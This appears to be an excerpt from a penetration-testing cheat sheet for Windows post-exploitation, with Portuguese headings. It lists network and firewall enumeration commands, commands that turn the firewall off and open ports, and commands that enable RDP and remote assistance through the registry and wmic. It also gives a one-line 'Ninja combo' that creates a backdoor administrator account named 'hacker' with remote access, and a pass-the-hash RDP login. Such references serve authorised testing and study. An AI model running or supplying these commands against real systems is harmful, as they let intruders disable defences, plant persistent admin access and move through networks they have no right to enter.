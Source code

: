 ```bash
net localgroup "Remote Desktop Users" UserLoginName  /add
net localgroup "Debugger users" UserLoginName /add
net localgroup "Power users" UserLoginName /add
```
## Rede

### Interfaces, Rotas, Portas, Hosts e DNSCache
```bash
ipconfig /all #Info about interfaces
route print #Print available routes
arp -a #Know hosts
netstat -ano #Opened ports?
type C:\WINDOWS\System32\drivers\etc\hosts
ipconfig /displaydns | findstr "Record" | findstr "Name Host"
```
### Firewall
```bash
netsh firewall show state # FW info, open ports
netsh advfirewall firewall show rule name=all
netsh firewall show config # FW info
Netsh Advfirewall show allprofiles

NetSh Advfirewall set allprofiles state off  #Turn Off
NetSh Advfirewall set allprofiles state on  #Trun On
netsh firewall set opmode disable #Turn Off

#How to open ports
netsh advfirewall firewall add rule name="NetBIOS UDP Port 138" dir=out action=allow protocol=UDP localport=138
netsh advfirewall firewall add rule name="NetBIOS TCP Port 139" dir=in action=allow protocol=TCP localport=139
netsh firewall add portopening TCP 3389 "Remote Desktop"

#Enable Remote Desktop
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed

#Enable Remote Desktop with wmic
wmic rdtoggle where AllowTSConnections="0" call SetAllowTSConnections "1"
##or
wmic /node:remotehost path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"

#Enable Remote assistance:
reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable

#Ninja combo (New Admin User, RDP + Rassistance + Firewall allow)
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

::Connect to RDP (using hash or password)
xfreerdp /u:alice /d:WORKGROUP /pth:b74242f37e47371aff835a6ebcac4ffe /v:10.11.1.49
```